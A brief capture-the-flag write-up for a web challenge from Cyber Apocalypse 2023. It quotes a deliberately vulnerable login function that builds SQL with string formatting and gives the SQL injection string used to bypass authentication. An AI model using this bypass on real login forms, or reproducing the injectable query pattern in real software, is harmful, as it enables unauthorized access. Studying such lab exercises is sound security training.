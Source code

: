 # Cyber Apocalypse 2023

## Drobots

> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?
>
>  Author: [D13David](https://github.com/D13David)
>
> [`web_drobots.zip`](web_drobots.zip)

Tags: _web_

## Solution
We are presented with an login form. By looking at the source code we find the login code with a suspicious comment.
```
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

So we can use sql injection to pass by the login.
```
user: admin" or 1=1 -- -
password: test
```

After logging in we find the flag:
![flag](image001.png)